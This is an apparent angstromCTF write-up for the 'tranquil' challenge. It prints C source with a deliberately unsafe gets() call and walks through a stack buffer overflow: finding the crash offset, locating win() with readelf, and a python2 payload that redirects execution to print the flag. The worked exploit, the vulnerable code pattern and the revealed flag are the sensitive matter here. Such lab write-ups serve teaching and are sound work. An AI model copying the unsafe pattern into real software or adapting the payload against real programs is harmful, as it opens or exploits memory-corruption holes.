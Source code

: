 # tranquil

## Challenge:

Finally, [inner peace](https://files.actf.co/608874e08577f58044bd8dd1551a7b29c6945cfc58d7e1c35af1dc4e97213ab6/tranquil) - Master Oogway

[Source](https://files.actf.co/597e7ea4afea0e1fb28cb58e8ebe82447ada05fab44dd480992c49dcb8c36ae8/tranquil.c)

## Solution:

We have a binary and our C source code:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int win(){
    char flag[128];
    FILE *file = fopen("flag.txt","r");
    if (!file) {
        printf("Missing flag.txt. Contact an admin if you see this on remote.");
        exit(1);
    }
    fgets(flag, 128, file);
    puts(flag);
}

int vuln(){
    char password[64];
    puts("Enter the secret word: ");
    gets(&password);
    if(strcmp(password, "password123") == 0){
        puts("Logged in! The flag is somewhere else though...");
    } else {
        puts("Login failed!");
    }
    return 0;
}

int main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
    vuln();
    // not so easy for you!
    // win();
    return 0;
}
```

We’re given the password immediately, but it’s clear we need to get to the `win()` function. We should be able to abuse `gets()` to jump to the proper address.

We have a 64 character buffer. If we throw `A * 72` at it, we get a segmentation fault:

```
team8317@actf:/problems/2021/tranquil$ ./tranquil
Enter the secret word:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Login failed!
Segmentation fault (core dumped)
```

At `A * 74` we begin to rewrite the instruction pointer. At `(A * 72) + (B * 3)` we completely clobber it.

Now we need to discover where our `win()` function begins and rewrite RIP to point to it.

We can use `readelf` to find the function:

```
team8317@actf:/problems/2021/tranquil$ readelf -s tranquil | grep win
    41: 0000000000401196   110 FUNC    GLOBAL DEFAULT   14 win
```

And now we pass in the location as part of our exploit payload:

```
team8317@actf:/problems/2021/tranquil$ python2 -c "print 'A'*71 + ';\x96\x11\x40'" | ./tranquil
Enter the secret word:
Login failed!
actf{time_has_gone_so_fast_watching_the_leaves_fall_from_our_instruction_pointer_864f647975d259d7a5bee6e1}

Segmentation fault (core dumped)
```

And our flag is dumped along with the core: `actf{time_has_gone_so_fast_watching_the_leaves_fall_from_our_instruction_pointer_864f647975d259d7a5bee6e1}`.
